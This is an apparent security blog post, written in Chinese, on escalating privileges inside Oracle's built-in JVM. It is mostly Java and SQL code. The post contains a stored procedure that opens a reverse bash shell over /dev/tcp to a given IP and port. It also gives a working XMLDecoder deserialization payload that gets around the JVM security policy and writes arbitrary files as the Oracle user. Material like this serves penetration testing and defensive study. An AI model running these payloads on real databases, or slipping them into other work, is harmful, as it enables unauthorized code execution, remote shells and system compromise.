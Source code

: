 ```yaml
---
title: "Oracle 提权-XML 反序列化"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:40+08:00
draft: false
---
```


Oracle 内置的 JVM 有默认的安全控制策略，直接用 `Runtime.exec()` 执行系统命令会报错。

比如：

```java
SET scan off

create or replace and compile java source named ReverseShell as
import java.io.*;
public class ReverseShell{
   public static void getConnection(String ip, String port) throws InterruptedException, IOException{
      Runtime r = Runtime.getRuntime();
      Process p = r.exec(new String[]{"/bin/bash","-c","0<&126-;exec 126<>/dev/tcp/" + ip + "/" + port + ";/bin/bash <&126 >&126 2>&126"});
      System.out.println(p.toString());
      p.waitFor();
   }
}

// then
create or replace procedure reverse_shell (p_ip IN VARCHAR2,p_port IN VARCHAR2)
IS language java name 'ReverseShell.getConnection(java.lang.String, java.lang.String)';
```

会触发以下错误：

{{< figure src="/ox-hugo/2021-07-28_10-31-01_java-reverse-shell-perm-error.png" >}}

但是可以利用 XMLDecoder，它在反序列化过程时可以绕过 JVM 的权限管理策略，向系统写入
任意文件。

```java
create or replace and compile java source named DecodeMe as
import java.io.*;
import java.beans.*;
public class DecodeMe{
    public static void input(String xml) throws InterruptedException, IOException {

      XMLDecoder decoder = new XMLDecoder ( new ByteArrayInputStream(xml.getBytes()));
      Object object = decoder.readObject();
      System.out.println(object.toString());
      decoder.close();

    }
}
;

// then
CREATE OR REPLACE PROCEDURE decodeme (p_xml IN VARCHAR2) IS
    language java name 'DecodeMe.input(java.lang.String)';
```

然后执行以下 SQL 语句：

```sql
BEGIN
   decodeme('
    <java class="java.beans.XMLDecoder" version="1.4.0" >
        <object class="java.io.FileWriter">
          <string>/tmp/PleaseDoNotWork.txt </string>
          <boolean>True</boolean>
          <void method="write">
              <string>Why for the love of god?</string>
          </void>
          <void method="close" />
        </object>
    </java>');
END;
```

将会以 Oracle 运行者的权限写入 PleaseDoNotWork.txt 文件。
